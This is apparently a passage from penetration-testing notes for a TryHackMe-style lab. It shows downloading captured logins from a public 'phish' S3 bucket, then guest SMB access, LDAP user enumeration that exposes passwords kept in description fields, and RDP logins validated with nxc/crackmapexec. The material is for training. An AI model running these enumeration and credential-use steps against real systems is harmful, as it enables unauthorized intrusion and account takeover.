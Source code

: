 - __`aws s3 cp s3://darkinjector-phish/captured-logins-093582390 . --region us-west-2 --no-sign-request`__
```
┌──(root㉿kali)-[~]
└─# aws s3 cp s3://darkinjector-phish/captured-logins-093582390 . --region us-west-2 --no-sign-request

download: s3://darkinjector-phish/captured-logins-093582390 to ./captured-logins-093582390
```
### 📝 So this command does:
- __✅ Downloads the file named captured-logins-093582390__
- __✅ From the S3 bucket named darkinjector-phish__
- __✅ To your current directory on your local system__
- __✅ Without needing authentication (public access)__
- __✅ In the us-west-2 region__


# 15. Active Directory <a name="AD"></a>
- __Workstation (user)	`445, 139, 135, 3389, 5985`	✅ Uses AD services, but doesn’t host them (ONLY AD)__
- __Domain Controller	`88, 389, 445, 3268, 464, 9389`	✅ Hosts AD services (AD with DC)__

- Target
- `nano /etc/hosts`
- `10.10.210.170 labyrinth.thm.local thm.local thm-LABYRINTH-CA thm.local0`

```
┌──(root㉿kali)-[~]
└─# nxc smb labyrinth.thm.local -u 'guest' -p ''
SMB         labyrinth.thm.local 445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         labyrinth.thm.local 445    LABYRINTH        [+] thm.local\guest: 
```
### or
```
┌──(root㉿kali)-[~]
└─# crackmapexec smb labyrinth.thm.local -u 'guest' -p ''
SMB         labyrinth.thm.local 445    LABYRINTH        [*] Windows 10 / Server 2019 Build 17763 x64 (name:LABYRINTH) (domain:thm.local) (signing:True) (SMBv1:False)
SMB         labyrinth.thm.local 445    LABYRINTH        [+] thm.local\guest: 
```
- __enumerating the domain controller for users and policies__
```
┌──(root㉿kali)-[~]
└─# nxc ldap 10.10.214.56 -u "a" -p "" --users
LDAP        10.10.214.56    389    LABYRINTH        IVY_WILLIS                    2023-05-30 12:30:55 0       Please change it: ************
LDAP        10.10.214.56    389    LABYRINTH        SUSANNA_MCKNIGHT              2023-07-05 15:11:32 0       Please change it: ************
```

- __checking if rdp login is there are not__
```
┌──(root㉿kali)-[~]
└─# nxc rdp 10.10.214.56 -u "IVY_WILLIS" -p "************"
RDP         10.10.214.56    3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.214.56    3389   LABYRINTH        [+] thm.local\IVY_WILLIS:************ 

┌──(root㉿kali)-[~]
└─# nxc rdp 10.10.214.56 -u "SUSANNA_MCKNIGHT" -p "************"
RDP         10.10.214.56    3389   LABYRINTH        [*] Windows 10 or Windows Server 2016 Build 17763 (name:LABYRINTH) (domain:thm.local) (nla:True)
RDP         10.10.214.56    3389   LABYRINTH        [+] thm.local\SUSANNA_MCKNIGHT:************ (Pwn3d!)
```